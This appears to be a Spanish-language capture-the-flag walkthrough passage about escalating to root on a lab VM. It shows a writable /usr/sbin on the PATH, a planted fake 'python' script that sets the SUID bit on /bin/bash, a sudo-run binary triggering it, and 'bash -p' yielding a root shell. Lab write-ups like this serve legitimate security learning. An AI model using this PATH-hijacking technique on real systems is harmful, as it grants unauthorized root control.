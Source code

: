 ```bash
Orka@osboxes:/$ find / -type d -writable 2>/dev/null  |grep -vE 'home|var|proc|run|sys|dev' 
/usr/lib/python3.5/xml/parsers/__pycache__
/usr/lib/python3.5/xml/__pycache__
/usr/lib/python3.5/xml/dom/__pycache__
/usr/lib/python3.5/urllib/__pycache__
/usr/lib/python3.5/json/__pycache__
/usr/lib/python3.5/http/__pycache__
/usr/lib/python3.5/email/mime/__pycache__
/usr/lib/python3.5/email/__pycache__
/usr/sbin
/tmp
/tmp/.Test-unix
/tmp/.XIM-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.X11-unix
```
Tenemos capacidad de escritura el el directorio /usr/sbin el cual hacer parte del path,aprovechemosnos de el para crear nuestro propio archivo, y demosle permisos de ejecucion
```bash
Orka@osboxes:/usr/sbin$ nano python
Orka@osboxes:/usr/sbin$ chmod +x python 
Orka@osboxes:/usr/sbin$ cat python 
#!/bin/bash

chmod u+s /bin/bash
Orka@osboxes:/usr/sbin$ 
```
ahora ejecutemos el binario.
```bash
Orka@osboxes:/usr/sbin$ sudo /home/Orka/Desktop/bitcoin
Enter the password : password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 11
Orka@osboxes:/usr/sbin$ 
```
Ahora no nos aparece el mensaje de hace un momento ya que cuando llamo a python en realidad ejecuto nuestro archivo malicioso y ahora la bash deveria ser suid.
```bash
Orka@osboxes:/usr/sbin$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1109564 Jul 12  2019 /bin/bash
Orka@osboxes:/usr/sbin$
```
Como le asiganos el privilegio suid a la bash ya nos la podemos lanzar como el propietario(root) temporalmente.
```bash
Orka@osboxes:/usr/sbin$ bash -p 
bash-4.3# whoami
root
bash-4.3#
```
Gracias por leer.